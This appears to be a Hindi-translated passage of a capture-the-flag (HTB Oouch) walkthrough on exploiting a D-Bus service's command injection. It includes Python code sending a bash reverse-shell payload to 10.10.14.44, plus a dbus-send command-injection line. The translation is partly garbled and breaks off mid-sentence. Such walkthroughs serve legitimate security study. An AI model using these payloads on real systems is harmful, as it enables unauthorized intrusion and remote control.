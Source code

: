 ### इसका शीघ्रफलन करें

इस पृष्ठ के अंत में आप **D-Bus एप्लिकेशन का पूरा C कोड** पा सकते हैं। इसके अंदर आप 91-97 लाइनों के बीच **कैसे `D-Bus ऑब्जेक्ट पथ`** और `इंटरफेस नाम` **रजिस्टर किए गए हैं** यह जानकारी D-Bus कनेक्शन में जानकारी भेजने के लिए आवश्यक होगी:
```c
/* Install the object */
r = sd_bus_add_object_vtable(bus,
&slot,
"/htb/oouch/Block",  /* interface */
"htb.oouch.Block",   /* service object */
block_vtable,
NULL);
```
भी, पंक्ति 57 में आपको पाया जाता है कि **इस D-Bus संचार के लिए पंजीकृत केवल एक विधि** को `Block` कहा जाता है (_**इसलिए आगामी खंड में पेलोड को सेवा ऑब्जेक्ट `htb.oouch.Block`, इंटरफेस `/htb/oouch/Block` और विधि नाम `Block` पर भेजा जाएगा**_):
```c
SD_BUS_METHOD("Block", "s", "s", method_block, SD_BUS_VTABLE_UNPRIVILEGED),
```
#### Python

निम्नलिखित पायथन कोड D-Bus कनेक्शन में `Block` विधि को `block_iface.Block(runme)` के माध्यम से भेजेगा (_ध्यान दें कि यह पिछले कोड खंड से निकाला गया था_):
```python
import dbus
bus = dbus.SystemBus()
block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
runme = ";bash -c 'bash -i >& /dev/tcp/10.10.14.44/9191 0>&1' #"
response = block_iface.Block(runme)
bus.close()
```
#### busctl और dbus-send
```bash
dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block htb.oouch.Block.Block string:';pring -c 1 10.10.14.44 #'
```
* `dbus-send` एक उपकरण है जिसका उपयोग "संदेश बस" को संदेश भेजने के लिए किया जाता है।
* संदेश बस - एक सॉफ्टवेयर जो सिस्टमों द्वारा एप्लिकेशन्स के बीच संचार को आसान बनाने के लिए उपयोग किया जाता है। यह संदेश कतार (संदेश क्रम में क्रमबद्ध होते हैं) से संबंधित है, लेकिन संदेश बस में संदेशों को एक सब्सक्रिप्शन मॉडल में भेजा जाता है और यह बहुत तेज होता है।
* "-system" टैग का उपयोग करना इसे उल्लेखित करने के लिए किया जाता है कि यह एक सिस्टम संदेश है, डिफ़ॉल्ट रूप से एक सत्र संदेश नहीं।
* "--print-reply" टैग का उपयोग हमारे संदेश को उचित रूप से प्रिंट करने और मानव-पठनीय प्रारूप में किसी भी जवाब को प्राप्त करने के लिए किया जाता है।
* "--dest=Dbus-Interface-Block" - Dbus इंटरफेस का पता।
* "--string:" - हमें इंटरफेस को भेजने के लिए एसंदेश का प्रकार। संदेश भेजने के कई प्रारूप हैं जैसे डबल, बाइट्स, बूलियन, इंटीजर, ऑब्जपथ। इनमें से, "ऑब्ज
```c
//sudo apt install pkgconf
//sudo apt install libsystemd-dev
//gcc d-bus_server.c -o dbus_server `pkg-config --cflags --libs libsystemd`

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>
#include <unistd.h>
#include <systemd/sd-bus.h>

static int method_block(sd_bus_message *m, void *userdata, sd_bus_error *ret_error) {
char* host = NULL;
int r;

```